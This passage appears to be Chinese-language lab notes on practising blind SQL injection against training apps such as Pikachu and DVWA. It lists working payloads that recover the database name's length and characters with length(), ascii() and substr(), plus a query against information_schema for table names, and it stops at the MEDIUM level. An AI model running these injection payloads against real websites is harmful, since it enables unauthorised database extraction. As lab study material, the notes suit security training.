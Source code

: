 ![image-20221203210255171.png](https://img.ghostliner.top/Nz86P3.png)

获取第一个字母为 p

最终获取数据库名为 pikachu

```sql
'
12'+and+length((select+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()))>=3--+
```

length=38

### 手工盲注

#### LOW

确定为字符型注入

**获取数据库名长度**

```
1' and length(database())=1#
1' and length(database())=2#
...
1' and length(database())=n#
```

n=4，数据库名长度为 4

**猜解字母**

substr 函数:

substr("str",pos,length) //pos 从 1 开始，返回 length 长字符串

| Dec | Hex  | 字符 |
| --- | ---- | ---- |
| 48  | 0x30 | 1    |
| 57  | 0x39 | 9    |
| 65  | 0x41 | A    |
| 90  | 0x5A | Z    |
| 97  | 0x61 | a    |
| 122 | 0x7A | z    |

```
1' and ascii(substr(database(),1,1))>97#
1' and ascii(substr(database(),2,1))>97#
1' and ascii(substr(database(),3,1))>97#
1' and ascii(substr(database(),4,1))>97#
```

#### MEDIUM
